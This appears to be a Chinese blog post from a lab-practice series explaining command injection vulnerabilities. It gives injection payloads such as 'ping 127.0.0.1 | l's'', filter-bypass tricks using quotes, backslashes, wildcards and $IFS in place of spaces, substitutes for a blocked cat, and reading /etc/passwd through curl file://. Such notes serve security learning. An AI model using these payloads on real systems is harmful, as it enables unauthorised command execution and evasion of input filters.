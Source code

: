 ```yaml
---
title: 命令执行漏洞
date: 2022-01-21 09:28:24
tags:
      - Windows
      - Linux
      - 安全
      - 靶场练习
categories:
      - 安全
description: 稍微讲解一下命令执行漏洞
keywords:
top_img: /img/osBug.jpg
cover: /img/osBug.jpg
---
```


# 命令执行漏洞

有些地方让你使用命令

使用&,&&,|,||的过滤执行由于;在Linux种会被识别成空所以可以使用&;&



防止防火墙屏蔽

可以使用\',\\或者使用别的替换命令或是用正则

下面是例子:

> 如果他屏蔽了某些词可以使用`'`比如
>
> ping 127.0.0.1 | l's'
>
> 
>
> 还可以加`\`来进行绕过
>
> ping 127.0.0.1 | l\s
>
> 
>
> 如果屏蔽了cat还可以使用
>
> tac,head,tail,paste,more,less,nl(显示行号和cat -n类似),sort
>
> 
>
> 还可以使用来读取文件
>
> curl file:///etc/passwd
>
> 
>
> 屏蔽txt则
>
> 127.0.0.1| c'a't ./123.tx*
>
> 127.0.0.1| c'a't ./123.tx?(正则)
>
> 
>
> 屏蔽空格用下面的替代
>
> < <> %20 %09 $IFS$9 ${IFS} $IFS
>
>  
>
> echo常和>(写入),>>(追加)命令使用
>
> echo zxcvasdfgadf>111 echo加-e可以进行特殊字符处理
>
> 
>
> ```
> echo -e 处理特殊字符
> 
> 若字符串中出现以下字符，则特别加以处理，而不会将它当成一般文字输出：
> \a 发出警告声；
> \b 删除前一个字符；
> \c 最后不加上换行符号；
> \f 换行但光标仍旧停留在原来的位置；
> \n 换行且光标移至行首；
> \r 光标移至行首，但不换行；
> \t 插入tab；
> \v 与\f相同；
> \ 插入\字符；
> \nnn 插入nnn（八进制）所代表的ASCII字符；
> ```
>
> set /p="zxcvasdfavasdf">111不会换行

读取文件常用命令

>查看文件
>cat 123.txt
>屏蔽cat tac head tail等命令和'
>cat：从第一行开始显示内容，显示所有内容
>tac:和cat相反
>more:一页页查看内容
>less：和more类似
>head:查看头几行
>tail:查看后几行
>nl: 类似cat -n,显示行号
>taillf:类似tail -f
